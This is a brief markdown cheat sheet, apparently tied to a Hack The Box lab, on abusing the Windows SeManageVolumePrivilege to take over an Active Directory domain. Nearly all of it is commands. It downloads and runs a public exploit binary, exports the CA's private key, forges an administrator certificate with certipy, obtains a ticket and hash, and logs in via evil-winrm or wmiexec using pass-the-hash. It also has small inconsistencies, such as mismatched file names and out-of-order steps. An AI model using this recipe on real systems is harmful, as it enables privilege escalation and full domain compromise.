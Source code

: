 # SeManageVolumePrivilege
SeManageVolumePrivilege (Display name: "Perform volume maintenance tasks") is a Windows privilege that allows a user to perform administrative-level operations on storage volumes without needing full Administrator access.

Think of it as being the "storage system administrator" - you can't change user permissions or install software, but you have master keys to work with the hard drives and file systems at a very low level.

# steps
1. Download the Exploit Binary and upload it
2. Create a temp directoty.
3. Export the Certificate and Download it
4. After perform a forge ticket attack
5. Get the TGT and login it

# Download it
```language
wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe
upload SeManageVolumeExploit.exe
```
# Make a directory and Execute the exe
```language
.\SeManageVolumeExploit.exe

mkdir C:\tmp
cd C:\tmp
```
# Export certificate and Download 
```language
certutil -exportPFX my "Certificate-LTD-CA" C:\tmp\get.pfx

download get.pfx
```
# Forge ticket 
```language
certipy forge -ca-pfx input.pfx -upn administrator@$domain -subject "<admin OU>" -out out.pfx

for Example:-
certipy forge -ca-pfx get.pfx -upn administrator@$certificate.htb -subject "CN=Administrator,CN=Users,DC=certificate,DC=htb" -out out.pfx
```
# Get the TGT
```language
certipy auth -pfx out.pfx -dc-ip $ip  
```
# login it
```language
evil-winrm -i $ip -u "administrator" -H $hash

rlwarp impacket-wmiexec domain/user@<ip> -hashes :<hash>
```

